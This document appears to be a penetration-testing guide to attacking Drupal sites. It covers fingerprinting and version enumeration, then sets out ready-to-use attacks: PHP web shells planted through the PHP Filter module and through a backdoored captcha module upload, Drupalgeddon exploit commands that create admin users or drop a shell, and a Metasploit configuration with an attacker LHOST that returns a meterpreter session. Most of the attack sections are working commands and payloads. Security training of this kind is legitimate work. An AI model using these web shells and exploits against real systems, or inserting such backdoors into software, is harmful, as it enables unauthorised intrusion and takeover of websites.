

**Drupal** is a widely used PHP-based CMS that relies on a modular architecture, allowing functionality to be extended through modules and themes. From a pentesting perspective, it is an attractive target due to its large attack surface, which includes authentication endpoints, exposed modules, and historically critical vulnerabilities such as Drupalgeddon.

---

## Identification & Fingerprinting

Drupal can usually be identified through visible indicators in the response body, headers, or predictable file paths. Even when a custom theme is used, certain artifacts remain consistent.

Checking the page source is often enough:

```bash
curl -s http://target | grep -i drupal
```

Example output:

```html
<meta name="Generator" content="Drupal 8 (https://www.drupal.org)" />
<span>Powered by <a href="https://www.drupal.org">Drupal</a></span>
```

Another reliable indicator is the presence of **node-based URLs**, which are characteristic of Drupal routing:

```http
GET /node/1 HTTP/1.1
Host: target.com
```

- `/node/<id>` → content object (post, page, etc.)
    
- Useful when themes hide CMS fingerprints
    

Additional discovery points:

- `/robots.txt` → may contain `/node`
    
- `/user/login` → default login endpoint
    
- `/README.txt` or `/CHANGELOG.txt` (if accessible)
    

---

## Version Enumeration

### File-based enumeration

Older or misconfigured Drupal instances expose version info through static files:

```bash
curl -s http://target/CHANGELOG.txt | head
```

Example:

```text
Drupal 7.57, 2018-02-21
```

- Works mainly on older versions (Drupal 7)
    
- Newer versions often return `404`
    

### Droopescan

Automated tools like Droopescan provide deeper insight into the target:

```bash
droopescan scan drupal -u http://target
```

Example output:

```text
[+] Possible version(s):
    8.9.0
    8.9.1

[+] Possible interesting urls found:
    Default admin - http://target/user/login
```

This helps identify:

- Version range
    
- Installed modules
    
- Interesting endpoints
    

---

## Authenticated RCE via PHP Filter Module

In older Drupal versions (mainly Drupal 7), the **PHP Filter module** allows execution of arbitrary PHP code if enabled. If administrative access is obtained, this becomes a direct path to RCE.

From the admin panel:

- Navigate to: `Admin → Modules`
    
- Enable **PHP Filter**
    
- Create new content: `Content → Add content → Basic page`
    

Insert a web shell as the Body:

```php
<?php
system($_GET['cmd']);
?>
```

Select the `PHP code` option for the Text format field. Then, save and access the node:



Notes:

- In Drupal 8+, this module is not installed by default
    
- Installing it may require manual upload via admin panel
    

---

## RCE via Backdoored Module Upload

Drupal allows administrators to install modules, which can be abused to upload a malicious module containing a web shell.

Download and prepare a legitimate module:

```bash
wget https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```

Add a web shell:

```php
<?php
system($_GET['fe8edbabc5c5c9b7b764504cd22b17af']);
?>
```

Create `.htaccess` to bypass access restrictions:

```apache
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```

Repackage:

```bash
tar cvf captcha.tar.gz captcha/
```

Upload via:

- `Admin → Extend → Install new module`
    

Access shell:

```bash
curl -s http://target/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```

---

## Exploiting Drupal Core Vulnerabilities (Drupalgeddon)

Drupal has several critical RCE vulnerabilities affecting different versions.

### Drupalgeddon (CVE-2014-3704)

A pre-auth SQL injection allows creation of an admin user.

```bash
python2.7 drupalgeddon.py -t http://target -u hacker -p pwnd
```

If successful:

```text
[!] Administrator user created!
```

Login:

```text
http://target/user/login
```

This can be chained with:

- PHP Filter module
    
- Module upload
    

---

### Drupalgeddon2 (CVE-2018-7600)

Unauthenticated RCE via input handling in forms.

Run exploit:

```bash
python3 drupalgeddon2.py
```

Upload web shell (base64 encoded):

```bash
echo '<?php system($_GET["fe8edbabc5c5c9b7b764504cd22b17af"]); ?>' | base64
```

Execute:

```bash
curl http://target/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```

---

### Drupalgeddon3 (CVE-2018-7602)

Authenticated RCE requiring a valid session and node access.

Exploit with Metasploit:

```bash
use exploit/multi/http/drupal_drupageddon3
set RHOSTS target
set DRUPAL_SESSION <cookie>
set DRUPAL_NODE 1
set LHOST <attacker_ip>
exploit
```

Successful exploitation returns a shell:

```bash
meterpreter > getuid
www-data
```
